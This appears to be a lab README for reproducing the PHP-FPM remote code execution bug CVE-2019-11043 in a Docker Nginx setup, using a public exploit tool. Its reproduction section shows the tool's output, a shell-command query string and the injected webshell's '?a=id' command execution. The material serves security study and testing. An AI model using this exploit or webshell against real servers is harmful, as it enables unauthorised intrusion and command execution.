


# PHP-FPM Remote Code Execution (CVE-2019-11043)

[中文版本(Chinese version)](README.zh-cn.md)

PHP-FPM is a FastCGI implementation for PHP. In PHP versions 7.1.x below 7.1.33, 7.2.x below 7.2.24 and 7.3.x below 7.3.11 in certain configurations of FPM setup it is possible to cause FPM module to write past allocated buffers into the space reserved for FCGI protocol data, thus opening the possibility of remote code execution.

This vulnerability was first discovered during the Real World CTF 2019 Quals (organized by Chaitin Tech). It affects Nginx servers with certain misconfigurations when working with PHP-FPM, the most common vulnerable configuration includes `location ~ [^/]\.php(/|$)` rules.

## References

- PHP Bug Report: <https://bugs.php.net/bug.php?id=78599>
- Technical Analysis: <https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/>
- Exploit Tool: <https://github.com/neex/phuip-fpizdam>

## Environment Setup

Start a vulnerable PHP-FPM 7.2.10 server with Nginx using the following command:

```
docker compose up -d
```

After the environment starts, you can access the default page at `http://your-ip:8080/index.php`.

## Vulnerability Reproduction

The vulnerability can be exploited using the tool from https://github.com/neex/phuip-fpizdam:

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```

The successful exploitation will be indicated by the output above:



After the initial exploitation, a webshell is injected into the PHP-FPM process. You can execute commands by visiting:

```
http://your-ip:8080/index.php?a=id
```

Example of successful command execution:



### Important Notes

1. The vulnerability affects only some of the PHP-FPM child processes. If a command doesn't execute on the first try, make multiple attempts to reach an affected process.
2. The success of the exploit depends heavily on the specific Nginx configuration. The most common vulnerable configuration includes:
   - FastCGI processing enabled
   - PHP files processed through PHP-FPM
   - Specific location rules that split URLs in a vulnerable way
